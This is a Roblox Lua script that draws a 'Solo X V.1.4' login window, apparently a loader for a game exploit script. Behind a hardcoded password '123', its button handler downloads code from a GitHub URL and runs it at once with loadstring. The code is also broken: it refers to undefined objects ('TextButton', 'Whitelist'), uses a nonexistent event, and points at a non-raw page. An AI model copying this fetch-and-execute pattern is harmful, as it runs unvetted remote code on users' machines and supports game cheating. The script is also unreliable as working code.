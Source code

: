 -- Gui to Lua
-- Version: 3.2

-- Instances:

local LoginService = Instance.new("ScreenGui")
local main = Instance.new("Frame")
local UICorner = Instance.new("UICorner")
local Login = Instance.new("Frame")
local UICorner_2 = Instance.new("UICorner")
local Submit = Instance.new("TextButton")
local UICorner_3 = Instance.new("UICorner")
local Title = Instance.new("Frame")
local UICorner_4 = Instance.new("UICorner")
local Title_2 = Instance.new("TextLabel")
local Version = Instance.new("TextLabel")
local Input = Instance.new("TextBox")
local UICorner_5 = Instance.new("UICorner")

--Properties:

LoginService.Name = "LoginService"
LoginService.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")
LoginService.ZIndexBehavior = Enum.ZIndexBehavior.Sibling

main.Name = "main"
main.Parent = LoginService
main.BackgroundColor3 = Color3.fromRGB(43, 43, 43)
main.Position = UDim2.new(0.402134657, 0, 0.408623368, 0)
main.Size = UDim2.new(0, 339, 0, 160)

UICorner.Parent = main

Login.Name = "Login"
Login.Parent = main
Login.BackgroundColor3 = Color3.fromRGB(31, 31, 31)
Login.BackgroundTransparency = 1.000
Login.Position = UDim2.new(0.241887912, 0, 0.583333313, 0)
Login.Size = UDim2.new(0, 174, 0, 52)
TextButton.MouseButtonDown:connect(function()
    if Input.Text == "123" then
        Whitelist.Visible = false

        loadstring(game:HttpGet("https://github.com/ryderdot1/12/blob/main/README.md", true))()
    end
end)

UICorner_2.CornerRadius = UDim.new(0, 13)
UICorner_2.Parent = Login

Submit.Name = "Submit"
Submit.Parent = Login
Submit.BackgroundColor3 = Color3.fromRGB(50, 50, 50)
Submit.Position = UDim2.new(0.160669088, 0, 0, 0)
Submit.Size = UDim2.new(0, 119, 0, 43)
Submit.Font = Enum.Font.SourceSansLight
Submit.Text = "Login"
Submit.TextColor3 = Color3.fromRGB(255, 255, 255)
Submit.TextSize = 50.000

UICorner_3.CornerRadius = UDim.new(0, 15)
UICorner_3.Parent = Submit

Title.Name = "Title"
Title.Parent = Login
Title.BackgroundColor3 = Color3.fromRGB(26, 26, 26)
Title.Position = UDim2.new(-0.471264362, 0, -3.32568836, 0)
Title.Size = UDim2.new(0, 339, 0, 72)

UICorner_4.Parent = Title

Title_2.Name = "Title"
Title_2.Parent = Title
Title_2.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Title_2.BackgroundTransparency = 1.000
Title_2.Position = UDim2.new(0.202166587, 0, -0.00747871399, 0)
Title_2.Size = UDim2.new(0, 200, 0, 50)
Title_2.Font = Enum.Font.SourceSansLight
Title_2.Text = "Solo X"
Title_2.TextColor3 = Color3.fromRGB(255, 255, 255)
Title_2.TextSize = 45.000

Version.Name = "Version"
Version.Parent = Title
Version.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Version.BackgroundTransparency = 1.000
Version.Position = UDim2.new(0.203539819, 0, 0.453146845, 0)
Version.Size = UDim2.new(0, 200, 0, 50)
Version.Font = Enum.Font.SourceSans
Version.Text = "V.1.4"
Version.TextColor3 = Color3.fromRGB(255, 255, 255)
Version.TextSize = 20.000

Input.Name = "Input"
Input.Parent = Login
Input.BackgroundColor3 = Color3.fromRGB(75, 75, 75)
Input.Position = UDim2.new(-0.0747126415, 0, -1.46153843, 0)
Input.Size = UDim2.new(0, 200, 0, 46)
Input.Font = Enum.Font.SourceSans
Input.Text = ""
Input.TextColor3 = Color3.fromRGB(0, 0, 0)
Input.TextSize = 14.000

UICorner_5.Parent = Input
